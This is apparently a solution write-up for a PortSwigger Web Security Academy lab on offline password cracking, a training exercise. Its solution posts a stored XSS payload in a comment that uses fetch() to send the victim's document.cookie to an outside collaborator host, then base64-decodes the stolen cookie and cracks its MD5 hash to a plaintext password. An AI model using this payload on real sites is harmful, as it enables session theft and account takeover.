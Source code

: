 # [Lab: Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)

## Lab

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's `stay-logged-in` cookie and use it to crack his password. Then, log in as `carlos` and delete his account from the "My account" page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

## Analysis

Stored xss at comment function.

## Solutions

post comment:

```js
<script>
fetch('https://collaborator', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

check collaborator: `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`

b64-decode => `carlos:26323c16d5f4dabff3bb136f2460a943`

`26323c16d5f4dabff3bb136f2460a943` = md5(`onceuponatime`)
